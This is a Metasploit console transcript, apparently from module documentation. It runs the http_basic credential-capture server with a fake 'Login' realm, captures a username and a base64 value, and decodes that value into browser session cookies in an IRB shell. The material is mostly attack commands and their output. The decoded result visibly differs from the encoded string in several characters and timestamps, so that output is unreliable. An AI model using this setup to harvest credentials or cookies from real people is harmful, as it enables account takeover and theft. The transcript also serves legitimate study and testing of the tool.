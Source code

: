 Sever:

```
msf5 > use auxiliary/server/capture/http_basic 
msf5 auxiliary(server/capture/http_basic) > set uripath '/'
uripath => /
msf5 auxiliary(server/capture/http_basic) > set REALM "Login"
REALM => Login
msf5 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.2.117:80/
[*] Server started.
[*] Sending 401 to client 127.0.0.1
[+] 127.0.0.1 - Credential collected: "h00die:R1VDPUFRRUJBUUZicVNGY2owSWVBQVJuJnM9QVFBQUFFUmFpakN4Jmc9VzZmYkdROyB1Y3M9bG5jdD0xNTM3NzI3MjQ4OyBjbXA9dD0xNTQxNDY4ODQ1Jmo9MDsgZmxhc2hfZW5hYmxlZD0wOyBhcGVhZj10ZC1hcHBsZXQtc3RyZWFtPSU3QiUyMnRtcGwlMjIlM0ElMjJpdGVtcyUyMiUyQyUyMmx2JTIyJTNBMTU0MTQ3MDY0NjI4OCU3RDsgSFA9MTsgQj1jN2tvYTYxZDY5dHBzJmI9MyZzPTVy" => /
```

Decoding the cookie:

```
msf5 auxiliary(server/capture/http_basic) > irb
[*] Starting IRB shell...
[*] You are in auxiliary/server/capture/http_basic

>> Base64.decode64('R1VDPUFRRUJBUUZicVNGY2owSWVBQVJuJnM9QVFBQUFFUmFpakN4Jmc9VzZmYkdROyB1Y3M9bG5jdD0xNTM3NzI3MjQ4OyBjbXA9dD0xNTQxNDY4ODQ1Jmo9MDsgZmxhc2hfZW5hYmxlZD0wOyBhcGVhZj10ZC1hcHBsZXQtc3RyZWFtPSU3QiUyMnRtcGwlMjIlM0ElMjJpdGVtcyUyMiUyQyUyMmx2JTIyJTNBMTU0MTQ3MDY0NjI4OCU3RDsgSFA9MTsgQj1jN2tvYTYxZDY5dHBzJmI9MyZzPTVy')
=> "GUC=AQEBAAFbqSFcj0IeBARn&s=AQADAERaieCx&g=W2fb9Q; ucs=lnct=1537714242; cmp=t=1247468145&j=0; flash_enabled=0; apeaf=td-applet-stream=%7B%22tmpl%22%3A%22items%22%2C%22lv%22%3A1541470698788%7D; HP=1; B=c7koa55d69tbs&b=3&s=5r"
```
